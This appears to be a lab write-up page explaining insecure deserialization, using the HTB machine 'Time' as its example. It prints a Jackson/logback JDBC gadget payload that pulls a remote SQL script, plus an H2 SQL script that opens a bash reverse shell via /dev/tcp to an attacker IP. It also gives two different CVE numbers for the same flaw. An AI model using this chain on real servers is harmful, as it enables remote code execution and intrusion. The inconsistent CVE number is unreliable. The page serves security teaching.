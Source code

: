 # Deserialization

Deserialization exploits the fact that a website may directly pass user input to a function that does not check the user input, which may have malicious functions or code.&#x20;

## How it Works

We first need to understand what serialization is.

<figure><img src="../.gitbook/assets/image (16) (1) (2).png" alt=""><figcaption><p><em>Taken from Portswigger Web Security Academy</em></p></figcaption></figure>

Websites would take in input via some function, and then serialize it into a certain format to be passed back to the server for processing. This format can be in form of a string, base64 encoded, binary, etc. Depends on the language and functions used for the website.&#x20;

The security flaw happens when the website deserializes it back and processes it. This would give an attacker control over objects passed into the application, which can be harmful. Most of the time, the flaw comes from the general lack of understanding of how dangerous deserializing user-controllable data can be. Ideally, user input should **never be deserialized at all**.&#x20;

It is impossible to check for every single potential thing in deserialized data to ensure it is safe. Also, even if checks are implemented, it may already be too late as the data can cause an exception in the code through the deserialization process.

This kind of attack mainly leads to RCE or DoS conditions on a website, which are really severe. **In short, never trust user input.**

## Example

The HTB machine, Time, has a deserialization in Java making use of CVE-2021-12384. The machine has a website that basically takes in JSON input and beautifies it.

<figure><img src="../.gitbook/assets/image (11) (4) (2).png" alt=""><figcaption></figcaption></figure>

We can enter some random JSON objects and it would output it as you would expect. If we enter some weird input, an error like this would appear:

<figure><img src="../.gitbook/assets/image (4) (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can see that the website uses Jackson to execute the function. Jackson is vulnerable to CVE-2019-12384, which is an RCE exploit involving passing this URL as a JSON object to be serialized:

```
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'"}]
```

The payload above exploits SSRF and makes the website request any link of our own, and in this case, we can run SQL scripts directly through this callback. This would allow us to craft a malicious SQL Script that would give us a reverse shell.

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
   String[] command = {"bash", "-c", cmd};
   java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
   return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -c "bash -i >& /dev/tcp/10.10.14.5/4444 0>&1"')
```

This is one example of how input was not sanitised on the website, and it processed the JSON object we input although it was only supposed to beautify it.
